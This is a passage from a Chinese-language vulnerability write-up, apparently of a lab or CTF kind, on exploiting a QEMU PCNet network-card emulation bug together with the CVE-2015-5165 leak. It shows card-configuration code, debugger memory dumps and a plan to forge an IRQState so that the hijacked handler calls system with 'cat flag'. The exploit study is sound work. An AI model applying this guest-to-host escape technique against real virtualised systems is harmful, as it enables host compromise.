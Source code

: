 ```c
				/* card config */
        outw(1, PCNET_PORT + RAP);
        outw(lo, PCNET_PORT + RDP);
        outw(2, PCNET_PORT + RAP);
        outw(hi, PCNET_PORT + RDP);
```

配置好网卡后，通过`pcnet_init`以及`pcnet_start`将网卡启动起来，再将构造的数据发送出去就触发了漏洞。

## 漏洞利用

该漏洞的利用需要结合之前`cve-2015-5165`的信息泄露，基于信息泄露得到了程序基址以及相应的堆地址后，便可实现任意代码执行。

先看内存结构原有的内存结构，将断点下在`pcnet_receive`函数，运行poc：

```c
pwndbg> print s
$2 = (PCNetState *) 0x5565a78d0840
pwndbg> vmmap s
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x5565a66f1000     0x5565a7f15000 rw-p  1824000 0      [heap]
pwndbg> print s->irq
$3 = (qemu_irq) 0x5565a78d6740
pwndbg> vmmap s->irq
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x5565a66f1000     0x5565a7f15000 rw-p  1824000 0      [heap]
pwndbg> print &s->buffer
$5 = (uint8_t (*)[4096]) 0x5565a78d2ad0
pwndbg> vmmap &s->buffer
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x5565a66f1000     0x5565a7f15000 rw-p  1824000 0      [heap]
```

可以看到`irq`指针的值为堆地址，而我们可控的网卡的数据也在堆上。

利用思路就比较清楚了，将`irq`指针的低四位覆盖指向`s->buffer`中的某处，并在该处伪造好相应的`irq`结构体,如将`handler`伪造为`system plt`的地址，将`opaque`伪造为堆中参数`cat flag`的地址。

```c
struct IRQState {
    Object parent_obj;

    qemu_irq_handler handler;
    void *opaque;
    int n;
};
```

`system plt`地址可通过`objdump`获得：

```bash
$ objdump -d -j .plt ./qemu/bin/debug/native/x86_64-softmmu/qemu-system-x86_64  | grep system
./qemu/bin/debug/native/x86_64-softmmu/qemu-system-x86_64:     file format elf64-x86-64
000000000009cf90 <system@plt>:
   9cf90:       ff 25 a2 14 7d 00       jmpq   *0x7d14a2(%rip)        # 86e438 <system@GLIBC_2.2.5>
```
